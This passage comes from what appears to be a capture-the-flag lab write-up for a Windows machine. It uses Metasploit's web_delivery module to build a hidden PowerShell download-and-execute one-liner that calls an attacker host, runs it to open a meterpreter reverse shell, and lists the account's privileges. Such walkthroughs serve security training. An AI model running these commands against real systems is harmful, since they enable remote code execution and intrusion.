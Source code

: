 We have reverse shell already.<br>
For the further enumeration, gain meterpreter shell with Metasploit module "Web_delivery".
{% highlight shell %}
msf5 > use exploit/multi/script/web_delivery 

msf5 exploit(multi/script/web_delivery) > set target 2
target => 2

msf5 exploit(multi/script/web_delivery) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp

msf5 exploit(multi/script/web_delivery) > set lhost 10.10.14.19
lhost => 10.10.14.19

msf5 exploit(multi/script/web_delivery) > set srvhost 10.10.14.19
srvhost => 10.10.14.19

msf5 exploit(multi/script/web_delivery) > run
[*] Exploit running as background job 0.
[*] Exploit completed, but no session was created.

[*] Started reverse TCP handler on 10.10.14.19:4444
[*] Using URL: http://10.10.14.19:8080/3FtokPLmY
[*] Server started.
[*] Run the following command on the target machine:
powershell.exe -nop -w hidden -c $q=new-object net.webclient;$q.proxy=[Net.WebRequest]::GetSystemWebProxy();$q.Proxy.Credentials=[Net.CredentialCache]::DefaultCredentials;IEX $q.downloadstring('http://10.10.14.19:8080/3FtokPLmY');
{% endhighlight %}

Now we had a command to run meterpreter shell.<br>
Then, run the obtained command on the current reverse shell.
{% highlight shell %}
C:\Users\kohsuke\Desktop>powershell.exe -nop -w hidden -c $q=new-object net.webclient;$q.proxy=[Net.WebRequest]::GetSystemWebProxy();$q.Proxy.Credentials=[Net.CredentialCache]::DefaultCredentials;IEX $q.downloadstring('http://10.10.14.19:8080/3FtokPLmY');
{% endhighlight %}

In the msfconsole window, we can confirm that we had new meterpreter session.
{% highlight shell %}
msf5 exploit(multi/script/web_delivery) > [*] 10.10.10.63      web_delivery - Delivering Payload (1941) bytes
[*] Sending stage (179779 bytes) to 10.10.10.63
[*] Meterpreter session 1 opened (10.10.14.19:4444 -> 10.10.10.63:49678) at 2019-09-15 13:14:31 +0300
{% endhighlight %}

With following command, we can open the session.
{% highlight shell %}
msf5 exploit(multi/script/web_delivery) > sessions -i 1
[*] Starting interaction with 1...

meterpreter >
{% endhighlight %}

By "getprivs" command, we can achieve privilege information.<br>
As we can see, we have "SeImpersonatePrivilege".
{% highlight shell %}
meterpreter > getprivs

Enabled Process Privileges
==========================

Name
----
SeChangeNotifyPrivilege
SeCreateGlobalPrivilege
SeImpersonatePrivilege
SeIncreaseWorkingSetPrivilege